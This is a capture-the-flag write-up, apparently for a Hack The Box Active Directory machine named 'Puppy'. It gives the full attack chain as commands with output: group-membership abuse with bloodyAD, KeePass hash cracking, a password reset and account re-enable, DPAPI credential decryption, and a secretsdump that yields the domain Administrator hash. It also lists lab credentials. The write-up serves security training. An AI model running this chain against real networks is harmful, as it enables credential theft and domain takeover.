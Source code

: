 #kdbx #DPAPI #DCsync
# Summary
- `kdbx` is used to store credentials.
- `DPAPI`, also used to store credentials
- `DCsync`.

---
10.10.11.70
`levi.james` :  `KingofAkron2025!`


nmap scan:
```
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus       
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-10-04 00:34:11Z)
111/tcp  open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000) 
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
2049/tcp open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
3260/tcp open  iscsi?        syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
```

Looking at bloodhound, `levi.james` is in `HR` group and he has `GenericWrite` on `DEVELOPERS` group. We will try to add our self in:
![[Z Assets/Images/Pasted image 20251004040824.jpeg]]
```
bloodyAD --host "10.10.11.70" -d "puppy.htb" -u 'levi.james' -p  'KingofAkron2025!' add groupMember 'DEVELOPERS' 'levi.james'
```

Now lets look at `smb` shares, We have folder called `DEV`, looking inside we find:
```

smb: DEV\> ls
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 09:09:12 2025
  Projects                            D        0  Sat Mar  8 18:53:36 2025
  recovery.kdbx                       A     2677  Wed Mar 12 04:25:46 2025
  
smb: SYSVOL\> ls
  lvRxjnmZBA                          D        0  Fri Mar 21 07:33:44 2025
  PUPPY.HTB                          Dr        0  Wed Feb 19 13:44:57 2025
  UltFsQYRGg.txt                      A        0  Fri Mar 21 07:33:44 2025
```

this is `kdbx` which contain hashes of passwords.
```
john-the-ripper.keepass2john recovery.kdbx > recovery.hash
john-the-ripper --format=KeePass  --wordlist ../rockyou7plus.txt recovery.hash
cat john.pot

e8c2ff8cc45c69ce1f4daef0e9:liverpool
```
We found password `liverpool`. We now can open `kdbx` file using this password, And we found multiple of usernames and passwords most of them were outdated but only one was valid.
`ant.edwards`: `Antman2025!`

Looking at `ant.edwards` in bloodhound:
![[Z Assets/Images/Pasted image 20251004165934.jpeg]]
We will change its password:
```
rpcclient -U 'puppy.htb/ant.edwards%Antman2025!' dc.puppy.htb
setuserinfo2 adam.silver 23 P@ssw0rd!
```

Try to do  ldap using this user:
```
nxc ldap 10.10.11.70 -u 'adam.silver'  -p 'P@ssw0rd!' -d puppy.htb --dns-server 10.10.11.70 
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:puppy.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        10.10.11.70     389    DC               [-] puppy.htb\adam.silver:P@ssw0rd! STATUS_ACCOUNT_DISABLED
```

The account is `STATUS_ACCOUNT_DISABLED`, so we will enable it, 
```
bloodyAD -u 'ant.edwards' -p 'Antman2025!' -d 'PUPPY.HTB' --dc-ip 10.10.11.70 remove uac 'adam.silver' -f ACCOUNTDISABLE
```
Now we can do evil-winrm.

looking at `C:\` drive, we found `C:\Backups` which contain website, between the files we found credentails  `ChefSteph2025!` for `steph.cooper` in `nms-auth-config.xml.bak`. now we can login him.
```sh
> ls
assets  images  index.html  nms-auth-config.xml.bak
```

After getting inside we found `DPAPI` cerdentials and masterkey in `STEPH.COOPER` directories. But we need to get the password for the masterkey. So, we will try to use `ChefSteph2025!` again.
```
impacket.dpapi masterkey -file master  -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107

impacket.dpapi credential -file cred -key '0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c81'

Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

We found that `steph.cooper_adm` can do `DCsync`.
```
secretsdump.py 'puppy.htb'/'steph.cooper_adm':'FivethChipOnItsWay2025!'@'DC'

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa943f13896e3e21f6c4100c7da9895a6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9c541c389e2904b9b112f599fd6b333d:::
```

We got admin hash GG.

---

